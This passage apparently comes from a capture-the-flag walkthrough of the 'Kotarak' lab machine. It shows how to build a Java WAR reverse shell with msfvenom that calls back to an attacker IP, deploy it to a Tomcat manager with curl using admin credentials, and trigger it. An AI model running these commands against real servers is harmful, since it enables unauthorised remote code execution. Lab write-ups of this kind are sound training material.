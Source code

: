 Green! we're good to go

***To get remote code exectuion,*** we will need to **generate a WAR reverse shell** with `msfvenom`

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.16.5 lport=9000 -f war -o letmein.war
```

and **upload the it** with `curl`
```bash
curl -v -u admin:'3@g01PdhB!' --upload-file letmein.war "http://kotarak:8080/manager/text/deploy?path=/shell&update=true"
```

then do another `curl` to **hit the endpoint** and **trigger our shell**
```bash
curl http://kotarak:8080/shell
```

It should look like this:

![](/assets/Kotarak/shell-as-tomcat.jpg)
